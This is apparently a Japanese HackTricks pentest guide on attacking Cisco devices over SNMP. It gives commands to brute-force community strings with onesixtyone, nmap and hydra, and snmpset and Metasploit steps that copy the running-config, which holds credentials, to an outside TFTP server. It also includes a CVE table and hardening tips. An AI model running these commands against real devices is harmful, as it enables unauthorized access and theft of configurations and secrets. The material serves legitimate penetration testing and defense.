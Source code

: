 # Cisco SNMP

{{#include ../../banners/hacktricks-training.md}}

## Ciscoネットワークのペンテスト

**SNMP**は、一般的なメッセージ用に**161/UDP**ポート、トラップメッセージ用に**162/UDP**ポートでUDP上で機能します。このプロトコルは*コミュニティストリング*に依存しており、SNMPエージェントとマネージャー間の通信を可能にするプレーンテキストの「パスワード」として機能します。これらのストリングは、特に**読み取り専用（RO）または読み書き（RW）権限**のアクセスレベルを決定します。

古典的でありながら依然として非常に効果的な攻撃ベクターは、**コミュニティストリングのブルートフォース**を行い、認証されていないユーザーからデバイス管理者（RWコミュニティ）に昇格することです。このタスクに便利なツールは[**onesixtyone**](https://github.com/trailofbits/onesixtyone):
```bash
onesixtyone -c community_strings.txt -i targets.txt
```
他の迅速なオプションは、Nmap NSEスクリプト`snmp-brute`またはHydraのSNMPモジュールです：
```bash
nmap -sU -p161 --script snmp-brute --script-args brute.community=wordlist 10.0.0.0/24
hydra -P wordlist.txt -s 161 10.10.10.1 snmp
```
---

### SNMPを通じた設定のダンプ (CISCO-CONFIG-COPY-MIB)
**RWコミュニティ**を取得すると、CISCO-CONFIG-COPY-MIB (`1.3.6.1.4.1.9.9.96`) を悪用して、*CLIアクセスなし*でrunning-config/startup-configをTFTP/FTPサーバーにコピーできます。一般的なアプローチは次の2つです：

1. **Nmap NSE – `snmp-ios-config`**
```bash
nmap -sU -p161 --script snmp-ios-config \
--script-args creds.snmp=private 192.168.66.1
```
スクリプトは自動的にコピー操作を調整し、設定をstdoutに出力します。

2. **手動 `snmpset` シーケンス**
```bash
# Copy running-config (4) to a TFTP server (1) – random row id 1234
snmpset -v2c -c private 192.168.66.1 \
1.3.6.1.4.1.9.9.96.1.1.1.1.2.1234 i 1 \    # protocol = tftp
1.3.6.1.4.1.9.9.96.1.1.1.1.3.1234 i 4 \    # sourceFileType = runningConfig
1.3.6.1.4.1.9.9.96.1.1.1.1.4.1234 i 1 \    # destFileType   = networkFile
1.3.6.1.4.1.9.9.96.1.1.1.1.5.1234 a 10.10.14.8 \ # TFTP server IP
1.3.6.1.4.1.9.9.96.1.1.1.1.6.1234 s \"backup.cfg\" \\
1.3.6.1.4.1.9.9.96.1.1.1.1.14.1234 i 4       # rowStatus = createAndGo
```
行識別子は*一度限り*であり、5分以内の再利用は`inconsistentValue`エラーを引き起こします。

ファイルがTFTPサーバーにあると、資格情報（`enable secret`、`username <user> secret`など）を確認したり、修正した設定をデバイスにプッシュしたりできます。

---

### Metasploitの便利な機能

* **`cisco_config_tftp`** – 同じMIBを悪用した後、TFTP経由でrunning-config/startup-configをダウンロードします。
* **`snmp_enum`** – デバイスのインベントリ情報、VLAN、インターフェースの説明、ARPテーブルなどを収集します。
```bash
use auxiliary/scanner/snmp/snmp_enum
set RHOSTS 10.10.100.10
set COMMUNITY public
run
```
---

## 最近のCisco SNMP脆弱性 (2023 – 2025)
ベンダーのアドバイザリーを追跡することは、エンゲージメント内での*ゼロデイからnデイ*の機会を特定するのに役立ちます：

| 年 | CVE | 影響を受ける機能 | 影響 |
|------|-----|-----------------|--------|
| 2025 | CVE-2025-20174 | SNMPサブシステム | 作成されたパケットがIOS/IOS-XE (v1/v2c/v3)で認証された*DoS* (リロード)を引き起こします。   |
| 2024 | CVE-2024-20373 | IPv4 ACL処理 | 誤って設定された**拡張**ACLが静かに*失敗*し、正しいコミュニティ/ユーザーが知られている場合に認証されていないSNMPポーリングを許可します。   |
| 2025 | (まだCVEなし) | SNMPv3設定制限のバイパス | 有効なv3ユーザーが拒否されるべきアドレスからポーリングできます。   |

悪用可能性は、コミュニティ文字列またはv3資格情報を持っていることに依存することが多く、これがブルートフォース攻撃が依然として関連性を持つ理由の一つです。

---

## ハードニングと検出のヒント

* 修正されたIOS/IOS-XEバージョンにアップグレードします（上記のCVEについてはCiscoのアドバイザリーを参照）。
* v1/v2cよりも`authPriv` (SHA-256/AES-256)を使用した**SNMPv3**を優先します。
```
snmp-server group SECURE v3 priv
snmp-server user monitor SECURE v3 auth sha <authpass> priv aes 256 <privpass>
```
* SNMPを管理VRFにバインドし、**標準の番号付きIPv4 ACLで制限します**（拡張名付きACLはリスクがあります – CVE-2024-20373）。
* **RWコミュニティ**を無効にします；運用上必要な場合は、ACLとビューで制限します：
`snmp-server community <string> RW 99  view SysView`
* 監視する項目：
- UDP/161のスパイクや予期しないソース（SIEMルール）。
- `CISCO-CONFIG-MAN-MIB::ccmHistoryEventConfigSource`イベントは、アウトオブバンドの設定変更を示します。
* **SNMPv3ロギング**を有効にし、特定のDoSベクターを減らすために`snmp-server packetsize 1500`を設定します。

---

## 参考文献

- Cisco: *SNMPを使用してCiscoデバイスに設定をコピーする方法*
- Ciscoセキュリティアドバイザリー *cisco-sa-snmp-uwBXfqww* (CVE-2024-20373)

{{#include ../../banners/hacktricks-training.md}}
